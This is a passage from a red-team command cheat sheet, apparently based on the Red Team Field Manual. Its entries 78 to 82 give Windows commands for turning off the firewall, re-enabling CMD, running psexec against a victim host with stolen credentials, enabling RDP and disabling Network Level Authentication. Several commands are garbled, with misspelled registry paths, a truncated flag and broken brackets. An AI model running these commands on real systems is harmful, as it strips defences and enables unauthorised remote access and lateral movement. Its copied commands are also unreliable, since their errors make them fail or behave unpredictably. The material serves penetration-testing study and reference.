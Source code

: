 https://technet.microsoft.com/en-us/library/ee649171(v=ws.11).aspx
__________
### 78. disable local firewall
```
netsh advfirewall set currentprofile state off;netsh advfirewall set allprofiles state off;
```
**- networking,Windows,configuration**
#### References:

https://technet.microsoft.com/en-us/library/bb490939.aspx
https://technet.microsoft.com/en-us/library/dd734783(v=ws.10).aspx
__________
### 79. re-enable CMD
```
reg add HKCU\Software\Policies\microsoft\Windows\System /v DisableCHD /t
```
**- pivoting,Windows,configuration**
#### References:

https://www.amazon.co.uk/Rtfm-Red-Team-Field-Manual/dp/1494295504
__________
### 80. windows psexec : \\127.0.0.1\c$\cmd.exe -p can be pass OR hash
```
psexec /accepteula \\[victim] -u [domain]\[user] -p [password] -c -f \\[victim]\[share\[file]
```
**- pivoting,Windows,remote command shell**
#### References:

https://technet.microsoft.com/en-us/sysinternals/pxexec.aspx
__________
### 81. enable RDP
```
reg add "HKEY LOCAL MACHINE\SYSTEM\CurentControlSet\Control \TerminalServer" /v DenyTSConnections /t REG_DWORD /d 0 /f
```
**- Windows,configuration**
#### References:

https://www.amazon.co.uk/Rtfm-Red-Team-Field-Manual/dp/1494295504
__________
### 82. Disable NLA on RDP
```
reg add "HKEY LOCAL MACHINE\SYSTEM\CurentControlSet\Control \TerminalServer\WinStations\RDP-TCP" /v UserAuthentication /t REG_DWORD /d "0" /f
```
**- Windows,configuration**
#### References:
